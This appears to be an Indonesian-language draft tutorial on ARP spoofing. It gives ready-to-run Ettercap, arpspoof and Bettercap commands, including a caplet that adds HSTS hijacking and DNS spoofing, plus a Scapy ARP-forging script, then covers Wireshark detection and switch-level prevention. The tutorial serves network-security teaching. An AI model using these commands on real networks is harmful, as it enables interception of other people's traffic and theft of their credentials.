 ```yaml
---
sidebar_position: 1
draft: true
---
```


# ARP Spoofing

## a. Menggunakan Ettercap
**Instalasi Ettercap:**
```bash
sudo apt update && sudo apt install ettercap-text-only
```

**Menjalankan Ettercap dalam mode teks:**
```bash
sudo ettercap -Tq -M arp:remote /192.168.1.1// /192.168.1.100//
```
- `-Tq` : Mode teks, tanpa GUI
- `-M arp:remote` : Mode MITM menggunakan ARP Spoofing
- `/192.168.1.1// /192.168.1.100//` : Menargetkan gateway dan korban


#### Menggunakan Wireshark untuk Mendeteksi ARP Spoofing
1. Buka Wireshark dan pilih interface jaringan yang digunakan.
2. Gunakan filter berikut untuk melihat paket ARP yang mencurigakan:
   ```
   arp.opcode == 2
   ```
3. Jika ada banyak ARP reply dari IP yang sama dengan MAC yang berbeda, kemungkinan terjadi ARP Spoofing.

### b. Menggunakan Arpspoof
**Instalasi Arpspoof:**
```bash
sudo apt install dsniff
```

**Menjalankan Arpspoof untuk menyerang target:**
```bash
sudo arpspoof -i eth0 -t [target] [gateway]
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

sudo arpspoof -i eth0 -t [gateway] [target]
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```
- `-i eth0` : Interface jaringan yang digunakan
- `-t 192.168.1.100` : Alamat IP korban
- `192.168.1.1` : Alamat IP gateway

**mengaktifkan port forwarding**
```bash
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

### c. Menggunakan Bettercap

#### Instalasi Bettercap
```bash
sudo apt update && sudo apt install bettercap -y
```

#### Menjalankan Bettercap
```bash
sudo bettercap -iface eth0
```

Setelah masuk ke CLI Bettercap, jalankan perintah berikut:

```bash
help                           # Menampilkan opsi bantuan yang tersedia di Bettercap
net.show                       # Menampilkan daftar perangkat yang terdeteksi dalam jaringan
net.probe on                   # Mengaktifkan pemindaian jaringan untuk mendeteksi perangkat secara aktif
net.sniff on                   # Mengaktifkan sniffing paket untuk menganalisis lalu lintas jaringan

set arp.spoof.targets 192.168.1.100  # Menentukan target untuk melakukan ARP Spoofing
arp.spoof on                   # Memulai serangan ARP Spoofing untuk meracuni cache ARP target
set net.sniff.filter tcp or udp # Menentukan filter sniffing untuk menangkap paket TCP atau UDP

hstshijack/hstshijack on        # Mengaktifkan HSTS Hijacking untuk menyusupi koneksi HTTPS
```

#### Menggunakan File Caplet untuk Automasi
Untuk mempercepat eksekusi perintah, gunakan file caplet:

```bash
cat > aria.cap << EOF
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 172.16.0.0/24
arp.spoof on
net.sniff on

set net.sniff.verbose true
set net.sniff.filter tcp or udp

hstshijack/hstshijack on
EOF
```

Jalankan Bettercap dengan caplet tersebut:
```bash
sudo bettercap -iface eth0 -caplet aria.cap
```

Caplet ini akan mengaktifkan pemindaian jaringan, menjalankan ARP Spoofing dalam mode full-duplex, dan mengaktifkan sniffing jaringan secara otomatis.

#### Opsi Lainnya
Selain contoh di atas, berikut beberapa opsi lain yang bisa dicoba:

1. **Menampilkan Informasi Lebih Detail**:
   ```plaintext
   net.recon on         # Mengaktifkan mode pengintaian lanjutan
   net.show verbose     # Menampilkan detail perangkat secara lengkap
   ```

2. **Menyerang Banyak Target Sekaligus**:
   ```plaintext
   set arp.spoof.targets 192.168.1.0/24  # Menargetkan seluruh subnet
   arp.spoof on
   ```

3. **Menjalankan Modul Lainnya**:
   ```plaintext
   dns.spoof on         # Melakukan DNS Spoofing
   http.proxy on        # Menjalankan proxy HTTP untuk manipulasi trafik
   ```

Opsi-opsi ini dapat dikombinasikan dalam file caplet untuk memperluas fungsionalitas Bettercap sesuai kebutuhan Anda.

## 3. Tools yang Digunakan untuk ARP Spoofing

| Tool | Deskripsi |
|------|----------|
| **Ettercap** | Tools untuk MITM attack dengan ARP Spoofing. |
| **Wireshark** | Digunakan untuk menganalisis paket jaringan dan mendeteksi ARP Spoofing. |
| **Arpspoof** | Tools sederhana untuk mengirim paket ARP palsu. |
| **Bettercap** | Framework security testing yang lebih canggih untuk MITM attack. |
| **Scapy** | Library Python untuk membuat dan mengirim paket ARP palsu. |

**Contoh penggunaan Scapy untuk mengirim paket ARP palsu:**
```python
from scapy.all import *
arp_response = ARP(op=2, psrc='192.168.1.1', hwsrc='aa:bb:cc:dd:ee:ff', pdst='192.168.1.100')
send(arp_response, loop=1, inter=2)
```

## 4. Pencegahan ARP Spoofing

### Static ARP
Menambahkan entri ARP statis untuk menghindari pembaruan palsu:
```bash
arp -s 192.168.1.1 00:11:22:33:44:55
```

### Port Security di Switch
Menggunakan port security untuk membatasi jumlah MAC address yang dapat terhubung ke port tertentu:
```bash
switch# configure terminal
switch(config)# interface fa0/1
switch(config-if)# switchport mode access
switch(config-if)# switchport port-security
switch(config-if)# switchport port-security maximum 1
switch(config-if)# switchport port-security violation restrict
switch(config-if)# exit
```

### Dynamic ARP Inspection (DAI)
Mengaktifkan inspeksi ARP pada switch untuk memverifikasi ARP yang sah:
```bash
switch# configure terminal
switch(config)# ip arp inspection vlan 10
switch(config)# interface fa0/1
switch(config-if)# ip arp inspection trust
switch(config-if)# exit
```

## Kesimpulan
ARP Spoofing adalah teknik serangan yang dapat digunakan untuk melakukan MITM attack, mencuri data, atau memutus koneksi jaringan. Dengan alat seperti Ettercap, Arpspoof, Bettercap, dan Scapy, serangan ini dapat dilakukan dengan mudah. Namun, ada beberapa metode pencegahan yang dapat digunakan seperti static ARP, port security, dan Dynamic ARP Inspection untuk mengamankan jaringan dari serangan ini.